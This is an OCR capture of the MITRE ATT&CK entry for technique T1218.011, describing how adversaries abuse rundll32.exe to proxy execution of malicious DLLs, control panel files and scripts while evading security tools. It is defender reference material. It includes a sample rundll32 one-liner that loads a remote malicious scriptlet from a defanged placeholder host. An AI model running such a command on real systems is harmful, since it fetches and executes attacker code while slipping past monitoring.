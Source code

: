 3/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 1/11Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 2/11Home>Techniques>Enterprise>System Binary Proxy Execution>Rundll323/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 3/11System Binary Proxy Execution: Rundll32
Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. Shared Modules),
may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from
normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: rundll32.exe {DLLname, DLLfunction} ).
Rundll32.exe can also be used to execute Control Panel Item ﬁles (.cpl) through the undocumented shell32.dll functions Control\_RunDLL
and Control\_RunDLLAsUser . Double-clicking a .cpl ﬁle also causes rundll32.exe to execute. 
Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: rundll32.exe
javascript:"..\mshtml,RunHTMLApplication
";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" This behavior has been seen used by
malware such as Poweliks. 
Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function
names. As part of Windows compatibility support for various character sets, rundll32.exe will ﬁrst check for wide/Unicode then ANSI
character-supported functions before loading the speciﬁed function (e.g., given the command rundll32.exe ExampleDLL.dll,
ExampleFunction , rundll32.exe would ﬁrst attempt to execute ExampleFunctionW , or failing that ExampleFunctionA , before loading
ExampleFunction ). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and
appending W and/or A to harmless ones. DLL functions can also be exported and executed by an ordinal number (ex: rundll32.exe
file.dll,#1 ).
Additionally, adversaries may use Masquerading techniques (such as changing DLL ﬁle names, ﬁle extensions, or function names) to further
conceal execution of a malicious payload.Other sub-techniques of System Binary Proxy Execution (13)
[1]
[2]
[3][4]
[5]
Version PermalinkID: T1218.011
Sub-technique of:  T1218

Tactic: Defense Evasion

Platforms: Windows

